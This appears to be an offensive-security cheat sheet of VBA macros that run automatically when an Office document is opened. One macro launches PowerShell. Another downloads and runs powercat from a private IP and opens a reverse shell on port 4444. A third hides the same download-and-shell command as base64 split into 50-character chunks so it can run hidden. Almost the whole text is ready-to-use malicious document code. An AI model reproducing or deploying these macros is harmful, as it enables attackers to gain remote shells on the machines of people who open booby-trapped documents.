 > Macro code is a programming code which is written in _VBA_ (Visual Basic for Applications) language


#VB

Macro to open powershell
```vb
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```

Macro for reverse shell
```vb
Sub AutoOpen()
    mymacro
End Sub

Sub Document_Open()
    mymacro
End Sub

Sub mymacro()
    Dim Str As String
    
    Str = "powershell -c ""IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.69.169/powercat.ps1');powercat -c 192.168.69.169 -p 4444 -e powershell"

    CreateObject("Wscript.Shell").Run Str
End Sub
```

Macro for encoded powershell reverse shell command in chunks of 50
```vb
Sub AutoOpen()
    mymacro
End Sub

Sub Document_Open()
    mymacro
End Sub

Sub mymacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
	Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
	Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
	Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
	Str = Str + "ALgAxADYAOAAuADQANQAuADIAMAAxAC8AcABvAHcAZQByAGMAY"
	Str = Str + "QB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQB"
	Str = Str + "jACAAMQA5ADIALgAxADYAOAAuADQANQAuADIAMAAxACAALQBwA"
	Str = Str + "CAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGw"
	Str = Str + "A"

    CreateObject("Wscript.Shell").Run Str
End Sub
```